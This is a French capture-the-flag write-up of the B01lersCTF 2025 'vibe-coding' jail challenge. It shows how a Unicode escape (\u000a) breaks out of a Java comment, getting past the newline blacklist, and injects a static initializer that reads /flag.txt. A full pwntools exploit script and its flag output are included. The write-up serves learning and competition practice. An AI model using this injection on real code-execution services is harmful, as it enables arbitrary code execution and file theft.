 ```yaml
---
title: "B01lersCTF 2025 : vibe-coding | Jail"
date: 2025-04-22
draft: false
categories: ["Misc"]
ctf: "B01lersCTF 2025"
challenge: "vibe-coding"
author: "Reyko"
---
```


## Challenge : vibe-coding

### Enoncé : 

> b01lers is looking for a vibe coder to fix our Java codebase! Just write a comment, and our bleeding-edge LLM agent will fill in the rest.*
> 
> Disclaimer: model not yet implemented.

Un service  écoute sur `vibe-coding.atreides.b01lersc.tf:8443`. Il affiche un banner ASCII art, puis :

```
Enter your prompt below:
>
```

Le serveur prend une input comme commentaire Java, l’insère dans une template `Main.java` puis compile et exécute :

```java
// %s
public class Main {
    public static void main(String[] args) {
        // TODO: implement me
    }
    public static String getFlag() throws IOException {
        throw new RuntimeException("Not implemented yet");
    }
}
```

Le but est de faire en sorte que le flag (stocké dans `/flag.txt`) soit lu et affiché automatiquement avant `main`.

### 1. Analyse : 

- Le code insère votre chaîne dans un commentaire `// %s`, donc `%s public…`.

- Les caractères `\r` et `\n` sont blacklistés mais Java implémente un prétraitement Unicode très particulier : toute séquence `\uXXXX` est substituée à son code Unicode avant l’analyse lexicale du code.

- Les static initializers (`static { … }`) sont exécutés lors du chargement de la classe, avant l’appel à `main`.

- On peut donc exploiter le commentaire initial (`// …`) en injectant un saut de ligne réel via un escape Unicode `\u000a` (ou CRLF `\u000d\u000a`), hors des blacklistes `\n`/`\r`.

### 2. Attaque : 

1. Casser le commentaire `//` en transformant `// …` en deux lignes (`//` puis  ), via `\u000a` ou `\u000d\u000a`.

2. Injecter un bloc `static { … }` qui :
    
    - Lit `/flag.txt` via `new BufferedReader(new FileReader("/flag.txt"))`.

    - Affiche la ligne (le flag) avec `System.out.println(...)`.

    - Appelle `System.exit(0)` pour éviter toute suite de compilation ou exécution de `main`.

3. Laisser le reste de la template inchangé (ou rouvrir un `/*` non fermé pour éviter les erreurs de syntaxe.

4. Exécuter le payload brut via un script Python + pwntools, en raw bytes pour préserver les backslashes.

### 3. Solve : 

exploit.py : 

```python
#!/usr/bin/env python3
from pwn import remote

HOST, PORT = "vibe-coding.atreides.b01lersc.tf", 8443

# Payload : envoie littéralement les caractères '\u000astatic{…}'
payload = (
    b"\\u000a"                     # \u000a → vrai LF pré‑parsing, termine le //
    b"static{"                     # static initializer
      b"try{System.out.println("   # lit et affiche le flag
        b"new java.io.BufferedReader(new java.io.FileReader(\"/flag.txt\")).readLine()"  
      b");}catch(Exception e){}"  # on attrape exceptions
      b"System.exit(0);"         # on quitte la JVM
    b"}\n"                      # fin du static + LF
)

def main():
    conn = remote(HOST, PORT, ssl=True)
    conn.recvuntil(b"> ")
    conn.send(payload)
    # La JVM exécute static{…}, affiche le flag, puis exit(0)
    data = conn.recvall(timeout=2)
    print(data.decode(errors='ignore'))

if __name__ == '__main__':
    main()
```

### 4. Flag : 

```bash
$ python3 exploit.py

[+] Opening connection to vibe-coding.atreides.b01lersc.tf on port 8443: Done  
[+] Receiving all data: Done (66B)  
[*] Closed connection to vibe-coding.atreides.b01lersc.tf port 8443  
  
Your program output:  
  
bctf{un1c0d3_abn0rmal1z4t1on_493e42fc}  
===
```

